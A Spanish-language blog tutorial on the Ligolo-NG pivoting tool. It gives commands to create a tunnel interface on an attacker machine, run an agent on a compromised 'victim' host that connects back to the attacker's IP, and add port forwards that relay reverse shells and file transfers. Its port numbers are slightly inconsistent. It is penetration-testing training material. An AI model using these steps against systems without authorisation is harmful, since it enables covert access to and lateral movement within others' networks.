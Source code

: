 ```yaml
---
title: "Tutorial de Ligolo-NG"
date: Tue May 21 2024 02:00:00 GMT+0200 (Central European Summer Time)
categories: [Tutoriales, Ligolo-NG]
tags: [ligolo, ligolo-ng, proxy, pivoting]
image: /assets/img/cabeceras/ligolo-cab.png
---
```


### CONFIGURACIÓN Y PUESTA EN MARCHA DE LIGOLO-NG

##### ¿QUÉ ES LIGOLO-NG?

Ligolo-ng es una herramienta de pivoting alternativa a `chisel` y `socat`, ligera y rápida que permite establecer túneles inversos seguros sin necesidad de utilizar SOCKS. A diferencia de otras herramientas, Ligolo-ng crea un túnel virtual al estilo de una VPN, lo que facilita el pivotaje y el uso de herramientas como `nmap` o `netcat` sin tener que pasar por un proxy SOCKS. Gracias a esta característica, Ligolo-ng ofrece conexiones más rápidas y estables, mejorando significativamente el rendimiento en comparación con el uso de SOCKS.

##### DESCARGA

Nos descargaremos tanto el proxy como el cliente desde el repositorio oficial de GitHub [aquí](https://github.com/nicocha30/ligolo-ng){:target="_blank"}. Renombraremos los binarios (opcional) para una mejor manipulación.

##### MÁQUINA ATACANTE O PROXY (NUESTRA MÁQUINA):

Primero crearemos la interface "ligolo" y la inicializaremos:

```bash
$ sudo ip tuntap add user andy mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.249.0/24 dev ligolo
```

Ejecutaremos el proxy por el puerto que queramos estar escuchando:

```bash
$ ./ligolo-proxy -selfcert 

O si queremos levantar la red directamente:
$ ./ligolo-proxy -selfcert -laddr 0.0.0.0:4433
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023195808.png)

----

##### MÁQUINA VÍCTIMA DE SALTO:

En la máquina víctima que nos hará de salto entre ambos segmentos de red ejecutaremos lo siguiente:

```bash
> .\ligolo-agent.exe -connect 192.168.45.237:11601 -ignore-cert -retry
...
time="2023-10-23T10:34:58-07:00" level=info msg="Connection established" addr="192.168.45.237:4433"
```

Y ya está. Este último paso lo tendremos que hacer por cada máquina que tenga un segmento de red al que no podemos acceder. No hace falta ser un usuario con altos privilegios para ejecutar el agente, ya sea una máquina Linux o Windows.

----

##### MÁQUINA PROXY:

Ahora si nos fijamos en nuestra máquina, veremos que tenemos una conexión entrante:

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023200157.png)

Pulsamos intro y activamos la sesión 1, que es la única que hay. Si hubiese más tendríamos que activarla antes de usar el túnel creado.

```bash
ligolo-ng >> session
ligolo-ng >> 1
ligolo-ng >> start
```

Probamos si tenemos conexión a la red a la que queremos llegar:

```bash
$ ping 172.16.249.11

PING 172.16.249.11 (172.16.249.11) 56(84) bytes of data.
64 bytes from 172.16.249.11: icmp_seq=1 ttl=64 time=47.5 ms
64 bytes from 172.16.249.11: icmp_seq=2 ttl=64 time=43.2 ms
64 bytes from 172.16.249.11: icmp_seq=3 ttl=64 time=42.9 ms
```

Fantástico!!! Ya tenemos conexión con el segmento de red desde nuestra máquina!

----
- <font color="#c0504d">LLEGADOS A ESTE PUNTO EL PROBLEMA QUE SE NOS PRESENTA ES QUE LAS MÁQUINAS A LAS QUE YA PODEMOS ACCEDER NO TIENEN CONEXIÓN DIRECTA HACIA NOSOTROS, POR LO QUE UNA REVERSE SHELL O TRANSFERENCIA DE ARCHIVOS NO FUNCIONARÍA. PARA SOLUCIONARLO HAREMOS UN</font> _PORT FORWARDING_ <font color="#c0504d"> HACIA NUESTRA MÁQUINA ATACANTE.</font>

----

#### PORT FORWARDING HACIA NUESTRA MÁQUINA (LISTENER LIGOLO-NG)

##### MÁQUINA PROXY

Vamos a nuestra consola proxy de _Ligolo_ y escribimos el listener que queremos levantar:

```bash
[Agent : WEB02\Administrator@WEB02] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

Esto significa que todo el tráfico que reciba la máquina de salto por el puerto 8080 lo recibirá nuestra máquina atacante por el puerto 80. De esta manera si queremos tener una reverse shell de cualquier máquina o transferir archivos, el exploit o la RS deberá apuntar a la IP y al puerto 8080 de la máquina de salto y nosotros deberemos escuchar en el puerto 80 con NC, Webserver de Python o cualquier servicio que hayamos levantado en nuestra máquina y queramos llegar desde la máquina víctima que está en otro segmento de red.

-----

#### LISTADO DE LISTENERS

Para ver un listado de todos los LISTENERS que tenemos activos lo podremos hacer con este sencillo comando desde nuestra consola de proxy de _Ligolo_.

```bash
[Agent : WEB02\Administrator@WEB02] » listener_list
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231024162410.png)

-----

#### LIMPIEZA Y BORRADO DE INTERFACES

##### MÁQUINA PROXY:

Para borrar las interfaces y rutas creadas tenemos dos opciones, reiniciar nuestra máquina ya que no son configuraciones permanentes o, si no podemos o no queremos, ejecutaremos los siguientes comando en nuestra máquina:

```bash
$ sudo ip route del 172.16.249.0/24 dev ligolo
...
$ sudo ip link del ligolo
```


-----

Repositorio oficial de GitHub [aquí](https://github.com/nicocha30/ligolo-ng){:target="_blank"}
